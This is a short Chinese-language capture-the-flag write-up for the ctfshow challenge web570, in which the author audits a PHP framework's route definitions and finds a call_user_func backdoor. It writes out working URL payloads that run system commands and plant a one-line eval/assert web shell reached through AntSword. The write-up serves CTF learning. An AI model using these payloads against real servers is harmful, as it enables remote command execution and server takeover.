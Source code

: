 # web570
下载附件,在phpstrom里打开审查
tips:
![](vx_images/228986592354547.png)
路由定义
路由规则的定义格式为： ‘路由表达式’=>’路由地址和传入参数’

或者：array(‘路由表达式’,’路由地址’,’传入参数’)
![](vx_images/354197427444398.png)
发现可以的地方,应该就是后门了,思索该如何链接后门
call_user_func将后者作为参数传入前者(函数)
思索一会,思路:既然是路由则需要触发
应该需要访问ctfshow,该路由意思是ctfshow/payload$f/paload\$a
```
/index.php/ctfshow/system()/pwd
```
不行,看了下wp,call_user_func感觉不太会使,原来直接跟函数名就行了
使用:
```
<?php
echo call_user_func('system','whoami');
```
修改paylaod:
```
index.php/ctfshow/system/pwd
```
一个一个,目录查找太慢,准备一句话链接
payload:
```
/index.php/ctfshow/eval/eval($_POST['cmd'])
```
还是不行,看了下用的都是是assert改了下payload
```
/index.php/ctfshow/assert/assert($_POST['cmd'])//可以接受参数,但无法蚁剑连接
```
```
index.php/ctfshow/assert/eval($_POST['cmd'])
```
再用蚁剑连接就可以了(记得换为http)
结果发现只有assert在外包裹eval或assert时才能执行
但是一件链接只能用assert包裹eval
查找问题,文章[14704975.html](https://www.cnblogs.com/Article-kelp/p/14704975.html)